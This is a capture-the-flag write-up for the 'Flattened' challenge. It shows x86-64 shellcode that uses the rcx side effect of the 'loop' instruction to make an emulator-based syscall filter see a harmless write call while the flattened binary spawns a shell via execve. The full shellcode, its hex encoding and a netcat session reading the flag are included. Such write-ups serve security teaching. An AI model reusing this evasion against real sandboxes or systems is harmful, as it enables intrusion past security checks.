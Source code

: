 # Flattened

rev medium, 18 solves, 471 points

### First Looks

Downloading the challenge and taking a look at `chall.py`,
we can see that the user's hex input is interpreted as x86-64 assembly amd executed by the Qiling binary emulation framework.
Each executed instruction is added to a list, then joined in a binary at the end which is run.
This is the idea of `flattening`, loops are essentially unrolled into sequential instructions.
This is why all `loop` instructions are not added to the final list.

### The Problem

However, there is a catch, syscalls not in {0x1, 0x3c} = {SYS_write, SYS_exit} are flagged as illegal and causes the entire program to terminate.
So we cannot simply call `execve` or something similar to get a reverse shell.

```python
allowed_syscalls = {1, 0x3c}
if (
        capstone.x86_const.X86_GRP_INT in i.groups
        and ql.reg.eax not in allowed_syscalls
):
    print(f"[-] syscall = {hex(ql.reg.eax)}")
    raise ValueError("HACKING DETECTED!")
```

### Formulating a Plan
We need to write a assembly program such that the execution is different when unrolled. Our goal is to then have Qiling execute `write(STDOUT, NULL, 0)` (syscall 0x1) and after unrolling `execve('/usr/bin/sh', NULL, NULL)` (syscall 0x0b). Notice that on [x86-64](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit) the `syscall` convention is is `rax(rdi, rsi, rdx, r10, r8, r9)`. So somehow if we can alter those registers in the unrolled version we are golden.

### Executing the Plan
I searched for all x86-64 instructions that branched on Google and found the "beauty" that is `loop <label>`. If `rcx` > 0 then it decrements `rcx` and jumps to the specified label. The key is that it has a side effect: `rcx` is modified. Since the unrolled version won't include this instruction, `rcx` will never be decremented. So we can use this to our advantage with the following snippet:

```
mov     rcx,1
l1:
loop    l1
```

Qiling: `rcx` = 0

Unrolled: `rcx` = 1 (only `mov` is executed, `loop` is a branching instruction so it was not included in unrolled assembly)



### Final Assembly (shellcode)

```
xor     r15,r15                 ; xor reg,reg is the same as zeroing that reg
push    r15
push    r15
mov     r15,0x68732f
push    r15
mov     r15,0x6e69622f7273752f  
push    r15                     ; Put `/usr/bin/sh` on stack 8 bytes (characters) at a time

mov     rcx,1
l1:
loop    l1                      ; rcx = qiling ? 0 : 1

mov     rax,58
imul    rax,rcx                 ; rax = qiling ? 0 (write sycall number - 1) : 58 (execve syscall number - 1)
inc     rax                     ; syscall = qiling ? 1 (write) : 59 (execve)

mov     rdi,rsp
dec     rdi
imul    rdi,rcx
inc     rdi                     ; rdi = syscall arg0 = qiling ? 1 (STDOUT) : rsp (pointer to '/usr/bin/sh')

xor     rsi,rsi                 ; zero out arg1
xor     rdx,rdx                 ; zero out arg2
syscall                         ; qiling ? write(STDOUT, NULL, 0) : execve('/usr/bin/sh', NULL, NULL)

mov     rax,0x3c
xor     rdi,rdi
syscall                         ; exit(0)
```
### Final Input

We can use `pwntools` to assemble:

```python
from pwn import *

context.arch = "amd64"

print(asm(open('shellcode.S').read()).hex())
```

Which gives us: `4d31ff4157415749c7c72f736800415749bf2f7573722f62696e415748c7c101000000e2fe48c7c03a000000480fafc148ffc04889e748ffcf480faff948ffc74831f64831d20f0548c7c03c0000004831ff0f05`

### Flag

```
❯ nc pwn.chall.pwnoh.io 13377


Enter code in hex:
4d31ff4157415749c7c72f736800415749bf2f7573722f62696e415748c7c101000000e2fe48c7c03a000000480fafc148ffc04889e748ffcf480faff948ffc74831f64831d20f0548c7c03c0000004831ff0f05
[+] 0x11ff000: xor r15, r15
[+] 0x11ff003: push r15
[+] 0x11ff005: push r15
[+] 0x11ff007: mov r15, 0x68732f
[+] 0x11ff00e: push r15
[+] 0x11ff010: movabs r15, 0x6e69622f7273752f
[+] 0x11ff01a: push r15
[+] 0x11ff01c: mov rcx, 1
[ ] 0x11ff023: loop 0x11ff023
[+] 0x11ff025: mov rax, 0x3a
[+] 0x11ff02c: imul rax, rcx
[+] 0x11ff030: inc rax
[+] 0x11ff033: mov rdi, rsp
[+] 0x11ff036: dec rdi
[+] 0x11ff039: imul rdi, rcx
[+] 0x11ff03d: inc rdi
[+] 0x11ff040: xor rsi, rsi
[+] 0x11ff043: xor rdx, rdx
[+] 0x11ff046: syscall
[=]     write(fd = 0x1, buf = 0x0, count = 0x0) = 0x0
[+] 0x11ff048: mov rax, 0x3c
[+] 0x11ff04f: xor rdi, rdi
[+] 0x11ff052: syscall
[=]     exit(code = 0x0)
[+] Your program has been flattened! Executing ...
ls
chall.py
flag.txt
cat flag.txt
buckeye{execve_plu5_0n3_1s_exit}
```

Notice how the `loop` instruction is not included, and how `write` changes to our `execve` shell